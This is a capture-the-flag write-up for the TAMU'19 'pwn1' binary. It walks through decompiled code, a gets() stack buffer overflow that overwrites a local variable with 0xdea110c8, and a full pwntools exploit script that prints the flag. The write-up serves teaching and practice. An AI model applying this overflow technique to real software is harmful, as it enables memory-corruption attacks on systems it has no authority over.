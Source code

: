# TAMU'19: Pwn1

## Challenge Description
This challenge presents a simple **buffer overflow** problem.  
We are given a binary named `pwn1` which asks three questions in sequence:
1. Your name
2. Your quest
3. A secret

If the correct answers are provided for the first two questions, we then have the opportunity to exploit the third question, where the input is handled unsafely using `gets()`.

The goal is to overwrite a specific variable on the stack to trigger the `print_flag()` function, which reads and displays the flag from `flag.txt`.

---

## Ghidra Analysis

### `main` Function (decompiled)
```c
undefined4 main(void) {
    int iVar1;
    char local_43[43];
    int local_18;
    undefined4 local_14;
    undefined1 *local_10;

    local_10 = &stack0x00000004;
    setvbuf(_stdout, (char *)0x2, 0, 0);
    local_14 = 2;
    local_18 = 0;
    puts("Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.");
    puts("What... is your name?");
    fgets(local_43, 0x2b, _stdin);
    iVar1 = strcmp(local_43, "Sir Lancelot of Camelot\n");
    if (iVar1 != 0) {
        puts("I don't know that! Auuuuuuuugh!");
        exit(0);
    }
    puts("What... is your quest?");
    fgets(local_43, 0x2b, _stdin);
    iVar1 = strcmp(local_43, "To seek the Holy Grail.\n");
    if (iVar1 != 0) {
        puts("I don't know that! Auuuuuuuugh!");
        exit(0);
    }
    puts("What... is my secret?");
    gets(local_43);  // VULNERABILITY HERE
    if (local_18 == -0x215eef38) {  // 0xdea110c8
        print_flag();
    } else {
        puts("I don't know that! Auuuuuuuugh!");
    }
    return 0;
}
```

### `print_flag` Function
```c
void print_flag(void) {
    FILE *__fp;
    int iVar1;

    puts("Right. Off you go.");
    __fp = fopen("flag.txt","r");
    while (true) {
        iVar1 = _IO_getc(__fp);
        if ((char)iVar1 == -1) break;
        putchar((int)(char)iVar1);
    }
    putchar(10);
    return;
}
```

---

## Vulnerability
The third input is taken using `gets()`, which does **not** perform bounds checking.  
The buffer `local_43` is only **43 bytes**, and directly after it on the stack is `local_18`.  

By providing **43 padding characters** followed by the target value `0xdea110c8`, we can overwrite `local_18`.  
This satisfies the condition:
```c
if (local_18 == 0xdea110c8)
```
and the program will call `print_flag()`, revealing the flag.

---

## Exploit Development

### Steps
1. Pass the first two checks with correct answers:
   - `"Sir Lancelot of Camelot"`
   - `"To seek the Holy Grail."`
2. Overflow the third input with:
   - 43 bytes of padding (`"A"*43`)
   - 4 bytes for `0xdea110c8` (little-endian)

### Final Payload
```
"A"*43 + p32(0xdea110c8)
```

---

## Final Exploit Code
```python
from pwn import *

# Create the payload
payload = b"A"*43 + p32(0xdea110c8)

# Start the process
p = process("./pwn1")

# Interact with the binary step-by-step
p.recvuntil(b"What... is your name?")
p.sendline(b"Sir Lancelot of Camelot")

p.recvuntil(b"What... is your quest?")
p.sendline(b"To seek the Holy Grail.")

p.recvuntil(b"What... is my secret?")
p.sendline(payload)

# Get interactive shell to see the flag
p.interactive()
```

---

## Demonstration

### Recorded Terminal Session
You can replay the exact exploitation steps using `asciinema`:
```bash
asciinema play pwn1.cast
```

> Uploaded session file: [pwn1.cast](./pwn1.cast)

---

## Flag
Upon running the exploit, the program outputs:
```
Right. Off you go.
flag{example_flag_here}
```

---

## Key Takeaways
- `gets()` is inherently unsafe and should **never** be used.
- Ghidra is a powerful tool for reverse engineering and identifying vulnerable code paths.
- Note: for walkthrough go thorugh asciinema .cast file
